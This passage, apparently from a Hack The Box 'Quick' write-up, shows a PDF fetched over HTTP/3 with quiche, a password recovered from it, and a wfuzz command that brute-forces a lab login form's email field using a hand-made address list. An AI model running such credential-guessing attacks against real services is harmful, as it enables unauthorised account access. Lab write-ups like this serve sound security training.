 ```
</head>
</html>
➜  quiche git:(master)
```

**Getting the pdf file.**

```
➜  quiche git:(master) cargo run --manifest-path=tools/apps/Cargo.toml --bin quiche-client -- --no-verify  https:/quick.htb/docs/Connectivity.pdf >> htbquick.pdf

Finished dev [unoptimized + debuginfo] target(s) in 0.16s
Running `tools/apps/target/debug/quiche-client --no-verify 'https:/quick.htb/docs/Connectivity.pdf'`
➜  quiche git:(master) ✗
```

We found the password from the pdf file which is `Quick4cc3$$`.

![]({{ "/images/htb/quick/quickpdfX.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing the username</span>**
***

I decided to create a `wordlist` and bruteforce the `username` of this password from the pdf.

```
➜  Quick vim list-of-mail.txt
➜  Quick cat list-of-mail.txt
tim@qconsulting.co.uk
roy@darkwing.co.us
elisa@wink.co.uk
james@lazycoop.co.cn
➜  Quick
```

And fire `wfuzz` to crack it.

```
➜  Quick wfuzz -X POST -u 'http://quick.htb:9001/login.php' -d 'email=FUZZ&password=Quick4cc3$$' -w list-of-mail.txt --hc 200

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.4.5 - The Web Fuzzer                         *
********************************************************

Target: http://quick.htb:9001/login.php
Total requests: 4

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000003:   302        0 L      0 W      0 Ch        "elisa@wink.co.uk"

Total time: 0.091360
Processed Requests: 4
Filtered Requests: 3
Requests/sec.: 43.78267

➜  Quick
```
